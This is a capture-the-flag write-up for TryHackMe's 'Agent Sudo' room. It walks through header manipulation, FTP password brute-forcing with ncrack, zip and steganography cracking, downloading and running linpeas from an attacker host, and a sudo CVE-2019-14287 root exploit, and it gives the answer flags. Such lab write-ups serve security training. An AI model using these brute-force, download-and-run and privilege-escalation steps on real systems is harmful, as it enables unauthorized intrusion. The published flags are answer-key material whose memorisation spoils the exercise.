


# TryHackMe: Agent Sudo

> You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

*[Link](https://tryhackme.com/room/agentsudoctf)*

I got the following IP:

```
export IP=10.10.170.69
```

## Task 1

Just click completed, no need to do anything.

## Task 2: Enumerate

> Enumerate the machine and get all the important information

See `nmap.log`, `nikto.log` and `gobuster.log`. The index webpage itself told me the following:



Which I tried like this. (`-L` is important: we must follow a redirect!)

```
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo]
└──╼ $curl http://10.10.170.69/ -H "User-Agent: C" -L
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

Flags:

* **How many open ports?** 3
* **How you redirect yourself to a secret page?** `User-Agent`
* **What is the agent name?** `chris`

## Task 3: Hash cracking and brute-force

> Done enumerate the machine? Time to brute your way out.

I tried to take advantage of said weak password, guessing the username would be `chris`.

```
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo]
└──╼ $ncrack --user chris -P ../10-million-password-list-top-10000.txt ftp://$IP

Starting Ncrack 0.7 ( http://ncrack.org ) at 2023-08-02 12:54 BST
Stats: 0:00:16 elapsed; 0 services completed (1 total)
Rate: 0.00; Found: 0; About 0.40% done
Stats: 0:01:23 elapsed; 0 services completed (1 total)
Rate: 10.40; Found: 3; About 10.38% done; ETC: 13:08 (0:12:05 remaining)
(press 'p' to list discovered credentials)
Discovered credentials for ftp on 10.10.170.69 21/tcp:
10.10.170.69 21/tcp ftp: 'chris' 'crystal'
10.10.170.69 21/tcp ftp: 'chris' 'bitch'
10.10.170.69 21/tcp ftp: 'chris' 'winston'
```

This first password, `crystal`, got me FTP access. I used Filezilla and found three files: `To_agentJ.txt`, `cute-alien.jpg` and `cutie.png`. I copied these to `ftp-files/` here. The text file contained the following:

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

And indeed, there seems to be a zip file hidden inside one of the images:

```
┌─[✗]─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo/ftp-files]
└──╼ $binwalk -e cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

This zip file is password-protected, so I cracked it using John the ripper:

```
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo/ftp-files/_cutie.png.extracted]
└──╼ $zip2john 8702.zip > hashes.txt
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo/ftp-files/_cutie.png.extracted]
└──╼ $john hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 SSE2 4x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 10 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:00 DONE 2/3 (2023-08-02 13:14) 1.492g/s 65653p/s 65653c/s 65653C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So the zip password is `alien`. One of the files contained the following:

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

That's base64 for `Area51`. I tried to use this as steghide password on the other image file:

```
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo/ftp-files]
└──╼ $steghide extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
┌─[parrot@parrot]─[~/Desktop/tryhackme-agent-sudo/ftp-files]
└──╼ $cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Indeed, I was able to log in with SSH using these credentials:



Flags:

* **FTP password**: `crystal`
* **Zip file password**: alien
* **Steg password**: Area51
* **Who is the other agent (in full name)?** james
* **SSH password**: hackerrules!

## Task 4: Capture the user flag

> You know the drill.

```
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

There was another image file called `Alien_autospy.jpg` in the home directory too, which I copied using SCP. It's in the `ssh-files/` directory. I reverse image searched it and found some articles related to a *Roswell alien autopsy*.

Flags:

* **What is the user flag?** `b03d975e8c92a7c04146cfa7a5a313c7`
* **What is the incident of the photo called?** `Roswell alien autopsy`

## Task 5: Privilege escalation

> Enough with the extraordinary stuff? Time to get real.

I downloaded and executed `linpeas.sh` to check for possible privilege escalation vectors.
``` 
james@agent-sudo:~$ wget http://10.9.94.92/linpeas.sh
--2023-08-02 12:38:18--  http://10.9.94.92/linpeas.sh
Connecting to 10.9.94.92:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 676221 (660K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh              100%[=============================>] 660.37K  1.67MB/s    in 0.4s    

2023-08-02 12:38:19 (1.67 MB/s) - ‘linpeas.sh’ saved [676221/676221]

james@agent-sudo:~$ chmod +x linpeas.sh 
james@agent-sudo:~$ ./linpeas.sh
```

I had already noticed the old sudo version, but linpeas told me I might want to try [CVE-2019-14287](https://cve.circl.lu/cve/CVE-2019-14287). I copied exploit 47502 from [ExploitDB](https://www.exploit-db.com/exploits/47502) for this.

```
james@agent-sudo:~$ vim exploit.py
james@agent-sudo:~$ python3 exploit.py 
Enter current username :james
Lets hope it works
root@agent-sudo:~# whoami
root
root@agent-sudo:~# ls /root
root.txt
root@agent-sudo:~# cat /root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R

```
Flags:

* **CVE Number**: `CVE-2019-14287`
* **What is the root flag?** `b53a02f55b57d4439e3341834d70c062`
* **(Bonus) Who is agent R?** `DesKel`
